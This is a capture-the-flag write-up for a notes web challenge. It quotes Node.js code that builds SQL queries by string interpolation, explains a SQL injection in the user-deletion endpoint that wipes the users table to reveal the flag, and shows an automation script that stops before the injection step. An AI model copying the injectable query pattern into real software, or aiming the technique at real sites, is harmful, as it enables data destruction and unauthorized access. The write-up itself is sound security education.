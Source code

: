 The important code snippets that are relevant to obtaining the flag are as follows:

```js
app.get('/', (req, res) => {
    if (!req.session.user_id) {
        return res.redirect('/login?e=login%20to%20make%20notes');
    }

    pool.query(`SELECT * FROM notes WHERE user_id = '${req.session.user_id}';`, (err, results) => {
        pool.query(`SELECT * FROM users WHERE id = '${req.session.user_id}';`, (err, users) => {
            res.render('index', { notes: results, user: users[0] || { username: flag } });
        });
    });
});
```

In this code snippet, the first query selects all the notes associated with the user ID stored in the session. The second query retrieves the user's information from the users table based on the user ID. If the users array is empty or no user is found, the `username` value in the rendered view will be set to the value of the `flag` variable. To simplify the understanding, we need to ensure that we can delete the data in the table without destroying the session.

The **DELETE** statement in the `/user/delete` endpoint is vulnerable to SQL injection, which allows us to use a second account to delete all accounts without destroying the session of the first account.

```js
DELETE FROM users WHERE id = '${id}' AND password = '${req.body.password}';
```

I have created a simple script to automate the tasks and retrieve the flag based on the information provided above.

```python
import requests, urllib3

urllib3.disable_warnings()

# (1) Register Account
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
}

data = {
    'username': "test",
    'password': 'test',
}

s = requests.Session()
r = s.post('https://notes-dd58abacdabdcce9.tjc.tf/register', headers=headers, data=data, verify=False)
print("[+] Done Create an Account")

# (2) Create a note with username = "test"
data = {
    "note": "test"
}
r = s.post('https://notes-dd58abacdabdcce9.tjc.tf/note/create', headers=headers, data=data,verify=False)
print("[+] Done Create Post")
cookies =s.cookies.get_dict()

# (3) Create 2nd account 
data = {
    "username" :"test2",
    "password": "test2"
}
```